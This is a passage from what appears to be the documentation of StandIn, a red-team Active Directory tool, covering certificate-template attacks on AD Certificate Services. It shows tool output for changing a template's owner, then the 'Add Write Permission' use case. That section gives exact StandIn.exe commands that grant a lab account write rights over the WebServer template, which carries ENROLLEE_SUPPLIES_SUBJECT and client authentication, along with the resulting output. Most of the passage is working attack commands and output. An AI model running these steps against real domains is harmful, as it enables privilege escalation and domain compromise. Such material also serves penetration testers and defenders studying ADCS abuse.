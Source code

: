 ```
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:05:45 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\Enterprise Admins
    |_ Success
```

### Add Write Permission

#### Use Case

> *Template write permissions may be necessary to perform some of the other outlined `template attacks`. With the appropriate `object permissions` this function allows the operator to add or remove `WriteDacl` / `WriteOwner` / `WriteProperty` permissions from an `NtAccount` on the `template object`.*

#### Syntax

Add/remove `Write` permissions over the `WebServer` template for `REDHOOK\MBWillett`. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --write --add

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:15:44 PM

[+] Set object access rules

[+] Adding write permissions : REDHOOK\MBWillett
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
```